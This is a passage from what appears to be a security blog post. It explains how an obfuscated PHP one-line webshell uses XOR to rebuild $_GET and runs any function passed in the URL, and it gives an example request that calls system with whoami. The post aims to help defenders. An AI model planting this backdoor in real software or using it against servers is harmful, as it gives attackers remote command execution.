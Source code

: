 This part generates a global variable:

```
$_=${'_'.('\{\{\{' ^ '<>/')};
```

- `\{\{\{ ^ <>/` performs a bitwise operation between strings.
- XOR compares each bit of both strings and returns a new character.

Let's see what value this XOR operation generates:

<img src="{{ site.url }}{{ site.baseurl }}/images/webshellofusc.png" alt="">

Therefore, the variable $_ is defined as:

```
$_ = $_GET;
```

This means that `$_` is now an alias for `$_GET`, which contains the parameters sent in the URL.
The second part execute the code:

```
 $_[0]($_[1]);
```

- ``$_[0]`` takes the first parameter passed in the URL ``($_GET[0])``.
- ``$_[1] ``takes the second parameter ``($_GET[1])``.
- ``$_[0]($_[1]);`` executes the function stored in ``$_[0]``, passing ``$_[1]`` as an argument.

Example:

```
http://example.com/shell.php?0=system&1=whoami
```

## Conclusion

In conclusion, webshells are a powerful yet dangerous tool when leveraged by attackers to gain unauthorized control over a web server. While PHP, ASPX, and Java provide various means for attackers to exploit native functions, it is essential to understand both the methods and the consequences of such compromises. By examining common webshell tactics, like using native functions to execute system commands, we can better recognize and defend against these types of attacks.

## References
- [PHP Documentation](https://www.php.net/docs.php){:target="_blank"}
- [MythicAgents Github Repository](https://github.com/MythicAgents){:target="_blank"}
- [Codapi](https://codapi.org/java/){:target="_blank"}
- [Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell){:target="_blank"}